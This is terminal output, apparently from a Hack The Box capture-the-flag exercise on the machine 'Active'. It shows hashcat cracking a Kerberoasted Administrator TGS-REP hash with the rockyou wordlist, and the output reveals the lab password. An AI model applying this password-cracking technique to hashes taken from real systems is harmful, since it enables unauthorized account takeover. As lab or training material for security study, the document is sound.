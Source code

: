 ```default

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 134 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$5551bc6485205d8cfb95a9e27 ... cf715ee3a1014:Ticketmaster1968

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Ad...3a1014
Time.Started.....: Sun Sep 12 13:37:16 2021 (11 secs)
Time.Estimated...: Sun Sep 12 13:37:27 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   961.2 kH/s (7.47ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10551296/14344384 (73.56%)
Rejected.........: 0/10551296 (0.00%)
Restore.Point....: 10534912/14344384 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Tiona172 -> TUGGAB8

Started: Sun Sep 12 13:37:15 2021
Stopped: Sun Sep 12 13:37:29 2021
kali@kali:~/Documents/CTF/HTB/Machines/Active$
```
